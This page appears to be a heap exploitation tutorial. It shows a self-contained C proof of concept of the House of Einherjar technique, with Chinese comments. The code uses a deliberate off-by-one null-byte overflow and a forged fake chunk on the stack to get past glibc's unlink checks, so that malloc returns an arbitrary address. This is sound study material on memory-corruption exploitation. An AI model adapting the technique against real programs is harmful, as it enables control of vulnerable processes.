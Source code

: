 
### house_of_einherjar.c

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

/*
   Credit to st4g3r for publishing this technique
   The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
	
	uint8_t* a;
	uint8_t* b;
	uint8_t* d;
	
	a = (uint8_t*) malloc(0x38);
    int real_a_size = malloc_usable_size(a);
    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    // 绕过unlink检查
    // p->fd = p
    // p->bk = p 
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    a[real_a_size] = 0; //溢出一个字节，覆盖chunk b的size中的PREV_INUSE位
    
    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk); //计算与目标地址的偏移
   
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;// 伪造chunk b的prev_size位

    fake_chunk[1] = fake_size;// 伪造fake_chunk的size位

    // 绕过 __builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0)

    free(b);// 进行consolidate backward

    d = malloc(0x200);//分配到栈上的chunk
}
```
通过该技术可以强制malloc一个任意地址的chunk。其主要在于滥用 free 中的后向合并操作（合并低地址的chunk），从而使得尽可能避免碎片化。
